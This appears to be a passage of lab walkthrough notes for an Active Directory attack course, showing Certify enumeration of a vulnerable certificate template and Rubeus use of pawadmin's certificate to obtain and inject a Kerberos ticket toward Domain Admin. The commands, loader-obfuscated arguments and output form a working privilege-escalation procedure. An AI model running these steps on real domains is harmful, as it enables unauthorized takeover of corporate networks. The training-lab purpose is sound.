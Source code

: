 `pawadmin` has enrollment rights on a template 'ForAdminsofPrivilegedAccessWorkstations' that has `ENROLLEE_SUPPLIES_SUBJECT` attribute.
This means we can request a certificate for ANY user as `pawadmin`.

We can also enumerate this using the following command.

```
PS C:\AD\Tools> C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject

[SNIP]

[*] Action: Find certificate templates

    CA Name                               : Techcorp-DC.techcorp.local\TECHCORP-DC-CA
    Template Name                         : ForAdminsofPrivilegedAccessWorkstations 📜
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificates-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT 📌
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Encrypting File System, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Encrypting File System, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : TECHCORP\Domain Admins        S-1-5-21-2781415573-3701854478-2406986946-512
                                      TECHCORP\Enterprise Admins    S-1-5-21-2781415573-3701854478-2406986946-519
                                      US\pawadmin 👤                S-1-5-21-210670787-2521448726-163245708-1138

[SNIP]
```

- Abuse any such template(s) to escalate to Domain Admin and Enterprise Admin

**Get Domain Admin privileges**

Recall that we extracted certificate of `pawadmin` from the `us-jump3` in a previous hands-on (#10).

Use the certificate to request a TGT for `pawadmin` and inject in current session.

```
C:\Windows\system32> echo %Pwn%

asktgt

C:\Windows\system32> C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:"P@ssw0rd1!" /nowrap /ptt

[SNIP]

[*] Action: Ask TGT

[SNIP]

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/us.techcorp.local
  ServiceRealm             :  US.TECHCORP.LOCAL
  UserName                 :  pawadmin
  UserRealm                :  US.TECHCORP.LOCAL
  StartTime                :  4/29/2025 8:08:21 AM
```
